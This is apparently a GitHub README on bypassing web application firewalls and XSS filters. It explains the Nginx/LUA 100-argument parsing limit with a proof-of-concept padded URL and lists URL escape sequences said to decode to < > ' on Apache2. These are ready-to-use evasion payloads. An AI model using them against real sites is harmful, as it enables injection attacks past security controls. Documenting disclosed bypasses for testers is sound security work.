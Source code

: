 # Bypassing-Web-Application-Firewalls-And-XSS-Filters
This repository contains some documented WAF bypass exploits and a series of python scripts for generating weird character combinations and lists for BurpSuite Pro for bypassing web application firewalls (WAF) and XSS filters.

## Nginx/LUA 100 Request Limitation Exploit
*Update October 2018*
As detiled in the recently disclosed Cloudflare vulnerability, several Nginx/LUA based WAF implementations have a limitation where only 100 requests (GET/POST requests) can be processed before the WAF is no longer able to see them.

> “Nginx is a web server that is responsible for processing web requests. It is a stable and versatile tool that allows developers to focus on the implementation of WAF through different scripts written in LUA. Most of these open source WAF’s have the same problem: they don’t take into account that the module responsible for the integration of LUA in Nginx (lua-nginx-module) doesn’t allow access to all the information of a request.”

> ngx.req.get_uri_args()
some note from https://github.com/openresty/lua-nginx-module#ngxreqget_uri_args
“Note that a maximum of 100 request arguments are parsed by default (including those with the same name) and that additional request arguments are silently discarded to guard against potential denial of service attacks.”  

Proof of concept 100 request parameters for WAF bypass exploit:  
> /test.php?&a0=0&a1=1&a2=2&a3=3&a4=4&a5=5&a6=6&a7=7&a8=8&a9=9&a10=10&a11=11&a12=12&a13=13&a14=14&a15=15&a16=16&a17=17&a18=18&a19=19&a20=20&a21=21&a22=22&a23=23&a24=24&a25=25&a26=26&a27=27&a28=28&a29=29&a30=30&a31=31&a32=32&a33=33&a34=34&a35=35&a36=36&a37=37&a38=38&a39=39&a40=40&a41=41&a42=42&a43=43&a44=44&a45=45&a46=46&a47=47&a48=48&a49=49&a50=50&a51=51&a52=52&a53=53&a54=54&a55=55&a56=56&a57=57&a58=58&a59=59&a60=60&a61=61&a62=62&a63=63&a64=64&a65=65&a66=66&a67=67&a68=68&a69=69&a70=70&a71=71&a72=72&a73=73&a74=74&a75=75&a76=76&a77=77&a78=78&a79=79&a80=80&a81=81&a82=82&a83=83&a84=84&a85=85&a86=86&a87=87&a88=88&a89=89&a90=90&a91=91&a92=92&a93=93&a94=94&a95=95&a96=96&a97=97&a98=98&a=information_schemas  


References:  
https://github.com/p0pr0ck5/lua-resty-waf/issues/280  
https://latesthackingnews.com/2018/10/26/cloudflare-waf-bypass-vulnerability-discovered/  

## WAF Funky Characters Testing
These python scripts have been created to fuzz wierd combinations:

 * URL Escape Characters 
 * HTML Escape Characters
 * Binary Characters
 
These scripts were created during an assessment, while trying to bypass a Web Application Firewall (WAF) in order to exploit a XSS vulnerability.
Differnt webservers and browsers interpret URL and strange characters differently which could lead to the bypassing of security controls.
When I tried to send a > or < character the WAF would block the request.

The following URL escapes I have noticed are traslated to < > ' by Apache2 based web servers / WAF applications:

%(N%(n%)S%)U%)^%)s%)u%*C%*E%*c%*e%,.%.#%1N%1n%2S%2U%2^%2s%2u%3C%3E%3c%3e%5.%7#%:C%:E
%:c%:e%HN%Hn%IS%IU%I^%Is%Iu%JC%JE%Jc%Je%L.%N#%XN%Xn%YS%YU%Y^%Ys%Yu%ZC%ZE%Zc%Ze%\.%^#
%hN%hn%iS%iU%i^%is%iu%jC%jE%jc%je%l.%n#%xN%xn%yS%yU%y^%ys%yu%zC%zE%zc%ze%|.


